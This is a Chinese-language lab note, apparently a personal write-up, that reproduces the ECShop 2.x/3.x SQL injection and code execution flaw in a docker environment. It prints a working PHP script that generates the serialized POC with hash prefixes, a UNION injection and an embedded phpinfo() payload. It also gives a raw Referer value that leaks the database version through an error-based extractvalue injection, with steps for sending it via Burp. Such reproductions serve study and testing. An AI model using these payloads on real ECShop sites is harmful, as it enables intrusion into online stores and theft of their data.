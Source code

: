 # ecshop

进入目标文件夹，使用下面命令启动容器：

```
docker-compose up -d
```

环境启动之后访问服务页面

## 1、漏洞复现

复制脚本到记事本，保存命名为1.php

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

放到phpstudy的www目录下，打开phpstudy，启动wamp，然后访问127.0.0.1/1.php。访问结果如下：

![image-20231111234059497](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111234059497.png)

复制2.x的POC并打开测试界面192.168.232.131:5005/user.php进行抓包：

![image-20231111234212748](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111234212748.png)

发送到repeater模块并添加POC到Referer：

![image-20231111234256148](C:\Users\Lenovo\AppData\Roaming\Typora\typora-user-images\image-20231111234256148.png)

可以看到，发包之后返回了phpinfo页面。

## 2、通过ECShop 的注入点，获取当前数据库用户

在user.php页面下发送下面的referer：

```
554fcae493e564ee0dc75bdf2ebf94caads|a:2:{s:3:"num";s:72:"0,1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),1)-- -";s:2:"id";i:1;}
```

用hackbar发送（方便一点）：

![屏幕截图 2023-11-16 112947](C:\Users\Lenovo\Pictures\Screenshots\屏幕截图 2023-11-16 112947.png)

可以看到获得了当前数据库版本为5.5.62
